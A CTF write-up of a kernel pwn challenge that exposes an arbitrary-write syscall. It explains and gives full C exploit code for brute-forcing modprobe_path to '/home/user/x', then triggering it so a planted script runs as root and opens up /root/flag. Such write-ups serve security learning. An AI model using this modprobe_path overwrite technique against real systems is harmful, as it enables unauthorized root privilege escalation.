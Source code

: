 ## sp33d4
First time solving a kernel pwn challenge in a CTF, and it was quite fun!   
Collaborated it with blingbling (thanks for saving me!!).    

This challenge implements a new syscall: sys_pwn and it offers an arbitrary_write_random_number primitive. Also, the random number's lower 32 bits are returned to the user as the return value of the syscall.      

At first, I thought about overwriting some size of a struct to a large number, but it will require a kernel heap leak or such.   

Then blingbling and I thought about brute-forcing writing the modprobe_path to "/home/user/x" byte by byte (this can be done because the random number's lower 32 bits are returned to the user), and then trigger the modprobe_path to be executed.    

Also some fun usages of modprobe_path:   
- https://docs.kernel.org/admin-guide/sysctl/kernel.html#modprobe


### exp
```c
#include <stdio.h>
#include <sys/syscall.h>
#include <stdlib.h>
void get_flag(){
    system("echo -ne '#!/bin/sh\n/bin/chmod 777 /root\n/bin/chmod 777 /root/flag' > /home/user/x");
    system("chmod +x /home/user/x");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /home/user/dummy");
    system("chmod +x /home/user/dummy");
    system("/home/user/dummy");
    sleep(0.3);
    system("cat /root/flag");
    exit(0);
}
int main(){
    char* str = "/home/user/x";
    unsigned long long modprobe_path = 0xFFFFFFFF81A45CA0;
    for(int i = 0; i <= 12; i++){
        while(1){
            unsigned long long ret = syscall(451, modprobe_path + i);
            if(ret%0x100 == (unsigned long long)str[i]){
                printf("Found %c at %llx\n", str[i], modprobe_path + i);
                break;
            }
        }
    }
    printf("Found all characters\n");
    // trigger
    get_flag();
    return 0;
}

```
